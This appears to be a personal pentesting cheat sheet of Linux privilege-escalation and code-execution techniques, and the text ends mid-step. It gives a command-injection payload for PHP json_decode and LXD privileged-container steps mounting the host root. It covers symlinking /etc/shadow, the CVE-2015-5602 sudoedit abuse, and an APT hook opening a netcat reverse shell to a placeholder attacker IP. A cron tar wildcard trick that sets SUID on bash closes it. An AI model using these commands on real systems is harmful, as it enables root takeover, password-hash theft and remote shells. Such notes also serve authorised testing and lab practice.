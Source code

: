 

**RCE**
- PHP json_decode() case. (not guaranteed tbh)
Ex:
"search":"\";[command];echo \""



**LXD**
1. git clone  https://github.com/saghul/lxd-alpine-builder.git
2. cd lxd-alpine-builder
3. ./build-alpine
4. transfer the alpine tar.gz
On the target machine
5. lxc image import ./[alpine file] --alias hello
6. lxc image list >> see our image
7. lxc init hello ignite -c security.privileged=true
8. lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
9. lxc start ignite
10. lxc exec ignite /bin/sh



**Symbolic Link**
Allow us to create a link between file, its like the same file but in two places.
https://linuxize.com/post/how-to-create-symbolic-links-in-linux-using-the-ln-command/
ln -s [file_we_want_to_link] [the_symbolic_link]
ex: ln -s /etc/shadow /home/yanto/xxx.txt



**CVE-2015-5602 (SUDOEDIT)**
https://www.exploit-db.com/exploits/37710

This affect sudo version <= 1.8.14
To check sudo version: sudo --version

sudoedit /*/*/

Example case:
(ALL : ALL) sudoedit /var/www/html/*/*/config.php
What should we do?
1. mkdir -p /var/www/html/tmp1/tmp2/   >>> Create the directory, because of the wildcard we can create anything
2. ln -s /etc/shadow /var/www/html/tmp1/tmp2/config.php >>> Symbolic link the root owned file we want to edit
3. sudoedit -u root /var/www/html/*/*/config.php >>> Run it
4. Now we can edit /etc/shadow 


**APT privesc**
https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/
1. `echo 'apt::Update::Pre-Invoke {“rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc KALI_IP 1234 >/tmp/f”};’ > pwn`


**Wild card privesc**
### When there's a script using `*`, for example to backup stuff. Usually in cronjob.
Example: 
In a cronjob there's 
`/usr/local/bin/backup.sh` with this inside it
```
cd /home/user
tar czf /tmp/backup.tar.gz *
```
We can exploit that function to execute all the script in the directory (in this case /home/user) to escalate our privilege
1. Create a script file in the /home/user for example
echo "chmod +s /bin/bash" > exploit.sh